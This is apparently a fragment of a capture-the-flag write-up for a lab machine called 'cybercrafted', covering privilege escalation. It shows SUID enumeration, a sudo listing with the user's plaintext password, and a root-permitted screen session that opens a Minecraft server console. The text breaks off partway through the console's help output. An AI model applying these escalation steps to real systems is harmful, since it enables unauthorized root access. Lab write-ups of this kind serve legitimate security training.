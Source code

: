 > **Privilege Escalation with Internal Logic & Screen Binary Phase**
> 

**For more information:**

[How To Use Linux Screen](https://linuxize.com/post/how-to-use-linux-screen/)

[screen
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/screen/)

```jsx
cybercrafted@cybercrafted:~$ find / -perm -4000 -type f -exec ls -al {} 2>/dev/null \;

-rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
-rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 43088 Sep 16  2020 /bin/mount
-rwsr-xr-x 1 root root 26696 Sep 16  2020 /bin/umount
-rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 18448 Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 149080 Jan 19  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 59640 Mar 22  2019 /usr/bin/passwd
-rwsr-sr-x 1 daemon daemon 51464 Feb 20  2018 /usr/bin/at
-rwsr-xr-x 1 root root 37136 Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 75824 Mar 22  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 44528 Mar 22  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 40344 Mar 22  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 76496 Mar 22  2019 /usr/bin/chfn
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 100760 Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 117880 Mar 26  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 436552 Aug 11  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14328 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1

cybercrafted@cybercrafted:~$ sudo -l
[sudo] password for cybercrafted: JavaEdition>Bedrock

Matching Defaults entries for cybercrafted on cybercrafted:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cybercrafted may run the following commands on cybercrafted:
    (root) /usr/bin/screen -r cybercrafted
    
cybercrafted@cybercrafted:~$ file /usr/bin/screen
/usr/bin/screen: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6a5022bd25aafa4fbc4ffae81e7a5366aa19147c, stripped

cybercrafted@cybercrafted:~$ /usr/bin/screen -r cybercrafted

> help

[REDACTED] - MORE

[12:58:13 INFO]: /tp: Teleports the given player (or yourself) to another player or coordinates
[12:58:13 INFO]: /unregister: 
[12:58:13 INFO]: /version: Gets the version of this server including any plugins in use
[12:58:13 INFO]: /weather: Changes the weather
[12:58:13 INFO]: /whitelist: Manages the list of players allowed to use this server
```

[12:58:13 INFO]: /xp: Gives the specified player a certain amount of experience. Specify <amount>L to give levels instead, with a negative amount resulting in taking levels.